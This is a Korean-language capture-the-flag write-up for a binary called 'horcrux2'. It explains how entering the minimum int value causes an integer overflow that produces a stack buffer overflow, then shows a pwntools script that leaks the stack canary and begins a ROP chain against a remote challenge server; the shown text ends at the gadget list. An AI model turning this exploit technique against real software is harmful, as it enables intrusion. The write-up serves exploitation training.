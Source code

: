 `amount`에 `scanf`로 정수 데이터를 입력 받고 `BreakHorcrux`에 전달될 인자인 `v2`는 -1로 초기화되어 있습니다. `amount`가 40보다 크지 않으면 if 문의 조건을 만족하여 `v2`에 `amount`를 더하고 `v2`가 음수가 아니면 `BreakHorcrux` 함수를 호출합니다. 여기서 amount를 `%d`로 입력 받기 때문에 음수를 입력할 수 있고 int 자료형의 최솟값을 입력하면 -1로 초기화된 `v2`와 더하면서 Integer Overflow가 발생해 `v2`는 int 자료형의 최댓값이 됩니다.

이후 `BreakHorcrux`를 보면 아래와 같습니다

```c
ssize_t __fastcall BreakHorcrux(int potion_cnt)
{
  __int64 buf[5]; // [rsp+10h] [rbp-30h] BYREF
  unsigned __int64 canary; // [rsp+38h] [rbp-8h]

  canary = __readfsqword(0x28u);
  buf[0] = 0LL;
  buf[1] = 0LL;
  buf[2] = 0LL;
  buf[3] = 0LL;
  buf[4] = 0LL;
  write(1, "First Chance: ", 0xEuLL);
  read(0, buf, potion_cnt);
  printf("%s is not a password.\n", (const char *)buf);
  write(1, "Second Chance: ", 0xFuLL);
  return read(0, buf, potion_cnt);
}
```

`DrinkPotion`의 Integer Overflow를 통해 `potion_cnt`에 int 최댓값을 전달하면 크기가 40바이트인 `buf`에서 stack bof가 발생합니다. `read`함수로 `buf`에 `potion_cnt`만큼 총 두 번 입력을 받는데 첫 번째 입력은 `buf`를 문자열로 출력해줍니다. 따라서 첫 번째 입력에서 카나리의 첫 널 바이트를 다른 값으로 덮어 카나리를 알아내고 두 번째 입력에서 카나리가 포함된 ROP 페이로드를 삽입해 익스플로잇하는 것이 가능합니다

### Exploit

```python
from pwn import *

context.log_level = 'debug'

elf = ELF("./horcrux2")
libc = ELF("./libc-2.27.so")
#libc = elf.libc

#p = process("./horcrux2")
p = remote("15.165.100.234",32859)

int_overflow = -2147483648

p.sendlineafter(b">>", str(int_overflow).encode())

p.sendline(cyclic(40, n=8))

p.recvuntil(cyclic(40, n=8)+b'\n')

canary = u64(b'\x00'+p.recv(7))

print(hex(canary))

payload = cyclic(40, n=8) + p64(canary) + b"A"*8

#ROP
#gadgets
pop_rdi = p64(0x0000000000400ab3)
pop_rsi_r15 = p64(0x0000000000400ab1)
pop_rdx = p64(0x00000000004008af)
ret = p64(0x0000000000400696)

```